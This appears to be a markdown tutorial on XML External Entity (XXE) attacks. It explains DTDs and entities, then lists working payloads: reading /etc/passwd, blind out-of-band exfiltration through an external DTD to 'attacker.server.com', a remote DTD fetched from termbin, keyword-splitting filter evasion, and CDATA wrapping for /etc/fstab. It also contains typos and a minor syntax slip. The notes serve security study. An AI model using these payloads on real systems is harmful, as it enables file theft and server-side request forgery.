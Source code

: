 Extenral XML Entities
=====================

# Overview

## XML

Extensible Markup Language is a way of structuring data similar to JSON which has overtaken XML in popularity and largely replaced it in general.

### XML Structure && Syntax

```
<?xml version="1.0"?>
<Person>
	<Name>John Smith</Name>
	<Age>20</Age>
</Person>

```

+ Tags are case sensitve
+ "",'',<,> are illigal characters in XML due to the parser not knowing how to handel them

## Entities && The DTD

Entites operate like variables within the XML document where, once defined, they can be used anywhere throughout the document. XML entities live within a specific part of the XML document known as the DTD.


### Document Type Definition (DTD)

```
<?xml version="1.0"?>
<!DOCTYPE Person [
	<!ENTITY name "John">
]>
<Person>
	<Name>&name;</Name>
	<Age>20</Age>
</Person>
```

#### General Entities

```
<!ENTITY generalEntity "arbitary">

<Usage>&generalEntity;</Usage>
```

#### Parameter Entities

```
<!ENTITY % outer "<!ENTITY inner 'parameter'>">

```

+ Only allowed inside the DTD
+ More flexiable and can allow the creation of an entity which contains another entity

#### Predefined

```
<specialChars>&#x3C;</specialChars>
```

+ Collections of special characters that might break the document normally

# XXE Types

## Inband

+ XML document is parsed 
+ The XML parser reads the document
+ The output of the parser is rendered/output in a response

## Error Based

+ No output
+ A kind of blind XXE injection

## Out of Band (OOB)

+ Entirely blind
+ No output
+ This requires an attack/observation server 
+ The server receives requests made from an entity in the injected payload
+ If the request comes back then the origin site is vulnerable to OOB XXE
+ This also leads to SSRF (Server Side Request Forgery)


# Attacks && Payloads

## Read System Files

```
<?xml version="1.0"?>
<!DOCTYPE XXE [
	<!ENTITY payloadEntity SYSTEM "/etc/passwd">
]>
<out>&payloadEntity;</out>
```
+ Here the SYSTEM keyword reteives arbitary resources from a URI `/etc/passwd` to insert into the XML document
+ In this way we can achive arbitary read 

### Include Entities Remotely

```
<?xml version="1.0"?>
<!DOCTYPE XXE [
	<!ENTITY payloadEntity SYSTEM "https://callback.free.beeceptor.com/test">
]>
<out>&payloadEntity;</out>
```

## External DTD Payloads

+ Because DTDs can be passed as a URI in a `SYSTEM` call they can be loaded externally by the XML parser

```
<?xml version="1.0"?>
<!DOCTYPE DTD [
	<!ENTITY % parameter_entity "<!ENTITY secondary_entity 'PwnFunction'>">
	%parameter_entity%
]>

<payload>&secondary_entity;</payload>
```

## Blind XXE Paylods Using External DTDs

### Extenral DTD (external_payload.dtd)

```
<!ENTITY % grabPasswd SYSTEM "file:///etc/passwd">
	<!ENTITY % wrapper "<!ENTITY send SYSTEM 'http://attacker.server.com/?%grabPasswd;'>">
	%wrapper;
```

+ This will cause the parser to read the contents of `passwd` and store it in the grabPasswd parameter entity
+ This allows the usage of the parameter `grabPasswd` within the DTD
+ Another parameter entity `wrapper` is then created which points to the general entity `send` 
+ When the document is parsed the wrapper entity will spawn the `send` entity as a general entity legally via the external DTD
+ This will then send the contents of `grabPasswd` to the attack server 

### XXE Payload
```
<?xml version="1.0"?>
<!DOCTYPE payload SYSTEM "http://attack.server.com/external_payload.dtd">
<payload>&send;</payload>
```

## Filter Evasion

### External DTD 
```
<!ENTITY % p1 "fi">
<!ENTITY % p2 "le:///etc/pa">
<!ENTITY % p3 "sswd">
<!ENTITY % combined "<!ENTITY pwnFunc SYSTEM '%p1;%p2;%p3;'>">
```
### Main XML

```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE xxe [
    <!ELEMENT xxe ANY>
    <!ENTITY % a SYSTEM "http://termbin.com/mo28">
    %a;
    %all;
]>
<return>&pwnFunc;</return>
```
+ This will attempt to bypass filters for keywords such as `file` and `passwd`
+ Extra layers can be added until the filter stops detecting trigger words

## Exfiltration && Pitfalls

+ Since some system files that an attacker may attempt to exfiltrate contain xml syntatic characters like `<,>` a work around must be implemented in order to read these files


### CDATA

+ The character data syntax, `<![CDATA[ <text> ]]` is a way of telling the XML parser to ignore syntactic characters that may arise within this tag
+ Consider its usage in a external DTD payload bellow

```
<!ENTITY % file SYSTEM "file:///etc/fstab">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % wrapper "<!ENTITY all '%start;%file;%end;'>">
%wrapper;
```

+ This leads to the creation of a wrapper with the three parameters desired